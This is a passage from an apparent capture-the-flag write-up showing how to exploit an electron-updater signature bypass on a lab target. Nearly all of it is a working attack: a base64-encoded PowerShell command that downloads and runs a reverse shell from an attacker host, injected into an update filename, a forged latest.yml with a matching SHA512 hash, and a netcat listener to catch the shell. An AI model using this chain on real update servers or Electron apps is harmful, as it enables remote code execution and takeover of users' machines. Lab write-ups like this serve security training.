 The adres shows nothing new. However, there is some good news: https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

## Exploitation

Electron update tries to read /latest.yml on the update server, and lets assume that the clientx folders are hosting the update files. From the link we know that we can inject a command in to the filename. Because it also has to pass as an URL there are some limitations. To get arround those, work in base64. We are going to call powershell with the command in base64 encoding to fetch and run a reverse shell.

```
pwsh> $s = "iex(iwr http://10.10.14.22/revshel4444.ps1 -useb)"
pwsh> [convert]::ToBase64String([system.text.encoding]::Unicode.GetBytes($s)) 
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=
```

With revshel4444.ps1 a powershell reverse shell connecting back on port 4444, like https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

Create a file with Something as content and a filename which has the vulnerability in it

```
$ echo "Something" > "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe"
```

And get the base64 encoding of the SHA512 of the file

```
$ shasum -a 512 "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe" | cut -d " " -f1 | xxd -r -p | base64 
otVi427RYTHM7rC72XSPdQp69V789nYNoAj4FBBQfW5wp5ouQ3ARugP+HKeC+JbmoaCqznU2XIC0h44p05tSsQ==
```

Create a latest.yml pointing to this file with the obtained hash and a new version number
```
$ cat latest.yml      
version: 1.1.0
path: "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe"
sha512: otVi427RYTHM7rC72XSPdQp69V789nYNoAj4FBBQfW5wp5ouQ3ARugP+HKeC+JbmoaCqznU2XIC0h44p05tSsQ==
releaseDate: '2021-04-20T11:17:02.627Z'
```



Start a  httpserver hosting the reverse shell and a netcat listener on port 4444 to catch the reverse shell. 

```
$ sudo httpserver
$ nc -nlvp 4444
```
